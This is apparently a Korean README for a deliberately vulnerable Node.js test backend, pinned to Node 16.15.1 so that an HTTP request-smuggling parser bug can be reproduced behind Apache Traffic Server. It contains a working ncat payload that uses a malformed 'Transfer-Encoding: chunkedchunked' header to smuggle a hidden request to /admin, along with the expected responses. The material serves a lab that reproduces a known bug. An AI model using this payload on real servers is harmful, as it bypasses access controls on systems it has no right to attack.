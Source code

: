 # Backend (Node.js 서버) README

요구사항:

- Node.js 16.15.1 (이보다 높은 버전은 파서 버그가 패치되어서 스머글링 불가능)

(예전 버전에서 16.5.1이라고 썼던 건 오타입니다.)

테스트 서버 실행:

``` console
node app.js 3000
```

여기서 3000은 포트번호 예시입니다. 첫 번째 인수를 포트번호로 받습니다.

코드가 170줄 정도 됩니다만 대부분은 개발 중 코드를 주석처리한 거고 실제로 동작하는 서버 코드는 이부분입니다:

``` javascript
  let body = [];
  req.on('error', (err) => {
    res.end("error while reading body: " + err)
  }).on('data', (chunk) => {
    body.push(chunk);
  }).on('end', () => {
    body = Buffer.concat(body).toString();
    res.on('error', (err) => {
      res.end("error while sending response: " + err)
    });
   res.end(JSON.stringify({
      "URL": req.url,
      "Headers": req.headers,
      "Length": body.length,
      "Body": body,
    }) + "\n");
  });
```

그냥 요청 URL, Header, Length, Body를 그대로 되돌려주기만 합니다.

로컬에서 실행했을 때에는, Windows Powershell과 [NMap](https://nmap.org/ncat/)의 ncat을 사용해서 [파싱 버그를 재현](https://hackerone.com/reports/1524555)했었습니다.

``` console
echo "GET / HTTP/1.1`r`nTransfer-Encoding: chunkedchunked`r`n`r`n26`r`nGET / HTTP/1.1`r`nContent-Length: 30`r`n`r`n`r`n0`r`n`r`n`r`nGET /admin HTTP/1.1`r`n" | ncat localhost 8080
```

이렇게 요청했을 때 응답이 이래야 합니다:

응답 1번째:

```
HTTP/1.1 200 OK
Date: Wed, 01 Nov 2023 06:58:11 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 127

{"URL":"/","Headers":{"transfer-encoding":"chunkedchunked"},"Length":38,"Body":"GET / HTTP/1.1\r\nContent-Length: 30\r\n\r\n"}
```

응답 2번째:

```
HTTP/1.1 200 OK
Date: Wed, 01 Nov 2023 06:58:11 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 51

{"URL":"/admin","Headers":{},"Length":0,"Body":""}
```

중요한 건 ATS가 첫 번째 요청을 무시하면서 그걸 노드에 그대로 전달해주는지 마는지네요.
